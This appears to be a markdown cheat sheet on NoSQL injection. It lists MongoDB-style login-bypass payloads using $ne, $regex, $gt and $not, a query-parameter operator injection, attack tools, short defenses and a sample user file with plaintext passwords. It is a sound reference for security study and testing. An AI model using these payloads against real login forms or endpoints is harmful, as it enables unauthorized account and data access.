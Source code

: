 # 🧨 NoSQL Injection

## 📌 Overview

NoSQL injection targets databases like **MongoDB, CouchDB, Firebase**, etc. It manipulates queries using JSON-style syntax instead of traditional SQL.

---

## 💥 Common Attack Patterns

### 1. Authentication Bypass

```json
{
  "username": { "$ne": null },
  "password": { "$ne": null }
}
```
This bypasses login forms if the backend uses:
```javascript
db.users.find({ username: req.body.username, password: req.body.password });
```
2. Regex Password Bypass
```json
{
  "username": "admin",
  "password": { "$regex": ".*" }
}
```
If the app uses regex-matching on password fields, this will accept any password.

3. Boolean Exploits
```javascript
{
  "username": { "$gt": "" },
  "password": { "$gt": "" }
}
```
This passes because non-null strings are greater than empty.

4. URL-based GET Exploit
```bash
GET /user?id[$ne]=0
```
Exploiting a vulnerable endpoint that accepts IDs as parameters.
Injecting operators in query params if the server converts them to MongoDB filters.

### 🔧 Real Tools
NoSQLMap
Burp Suite Intruder
Postman / curl
MongoDB Compass (for exploring documents)

### 🛡️ Defenses
Type check and sanitize inputs (e.g., disallow objects in login inputs)
Use schema validation (Mongoose, JOI)
Do not directly use user inputs in queries

### 🧠 Extra
Test with:
```javascript
{ "username": "admin", "password": { "$not": { "$eq": "wrong" } } }
```
This tricks many naive filters.


---

### ✅ Optional: `users.json` (Fake DB Data)

```json
[
  { "username": "admin", "password": "secret", "role": "admin" },
  { "username": "teshiii", "password": "gold", "role": "user" }
]
```
